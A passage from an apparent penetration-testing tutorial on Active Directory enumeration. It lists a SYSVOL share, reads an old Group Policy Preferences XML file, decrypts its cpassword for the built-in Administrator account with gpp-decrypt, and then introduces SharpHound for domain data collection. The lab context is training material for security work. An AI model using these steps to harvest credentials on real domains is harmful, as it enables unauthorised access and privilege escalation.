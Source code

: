         Directory: \\dc1.corp.com\sysvol\corp.com\Policies

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-----         9/21/2022   1:13 AM                oldpolicy
    d-----          9/2/2022   4:08 PM                {31B2F340-016D-11D2-945F-00C04FB984F9}
    d-----          9/2/2022   4:08 PM                {6AC1786C-016F-11D2-945F-00C04fB984F9}
    
    PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
    <?xml version="1.0" encoding="utf-8"?>
    <Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
      <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
              name="Administrator (built-in)"
              image="2"
              changed="2012-05-03 11:45:20"
              uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
        <Properties
              action="U"
              newName=""
              fullName="admin"
              description="Change local admin"
              cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"                   # !!!!
              changeLogon="0"
              noChange="0"
              neverExpires="0"
              acctDisabled="0"
              userName="Administrator (built-in)"
              expires="2016-02-10" />
      </User>
    </Groups>
    ```
Due to the naming of the folder and the name of the file itself, it appears that this is an older domain policy file. This is a common artifact on domain shares as system administrators often forget them when implementing new policies. In this particular case, the XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account. The encrypted password could be extremely valuable for us.

Historically, system administrators often changed local workstation passwords through [*Group Policy Preferences* (GPP)](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11)).

However, even though GPP-stored passwords are encrypted with AES-256, the [private key for the encryption has been posted on MSDN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2). We can use this key to decrypt these encrypted passwords. In this case, we'll use the [gpp-decrypt](https://www.kali.org/tools/gpp-decrypt/) ruby script in Kali Linux that decrypts a given GPP encrypted string:
```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```
## Active Directory - Automated Enumeration
### Collect domain data using SharpHound
We'll use BloodHound in the next section to analyze, organize and present the data, and the companion data collection tool, [SharpHound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html) to collect the data. SharpHound is written in C# and uses Windows API functions and LDAP namespace functions similar to those we used manually in the previous sections. For example, SharpHound will attempt to use *NetWkstaUserEnum* and *NetSessionEnum* to enumerate logged-on sessions, just as we did earlier. It will also run queries against the Remote Registry service, which we also leveraged earlier.
